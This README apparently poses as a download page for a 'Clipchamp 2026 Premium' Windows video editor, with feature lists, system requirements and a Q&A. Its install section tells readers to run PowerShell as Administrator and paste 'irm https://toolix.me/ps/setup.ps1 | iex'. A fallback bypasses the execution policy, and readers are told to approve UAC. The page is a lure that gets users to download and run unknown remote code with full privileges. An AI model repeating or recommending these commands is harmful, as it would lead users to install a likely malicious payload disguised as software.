

***

# Clipchamp 2026 Premium

<p align="center">
  
</p>

Clipchamp 2026 Premium — Windows 11 and 10 build | caption styles | brand kits.

## About this application

**Clipchamp 2026 Premium** in this repo is a Windows desktop package for office creators cutting social clips. Expect a guided first launch, access to the clip desk with captions, stock, and brand kits, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

Clipchamp 2026 Premium suits office creators cutting social clips who need a straightforward Windows install and a focused captions, stock, and brand kits workflow.

## What's included

Clip desk tools are bundled in this release. Install locally, open the app, and use the captions, stock, and brand kits toolkit right away.

## Features

⚡ Auto captions
🧩 Brand kit
🎬 Stock
✨ Logo bumpers
🗂️ Templates
🎵 Music
📤 Resize

## Good for

- 📌 Comms teams
- 🎯 Campus media
- ⭐ Small shops

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 8 GB minimum | 16 GB recommended
* **Disk:** 6 GB available storage

***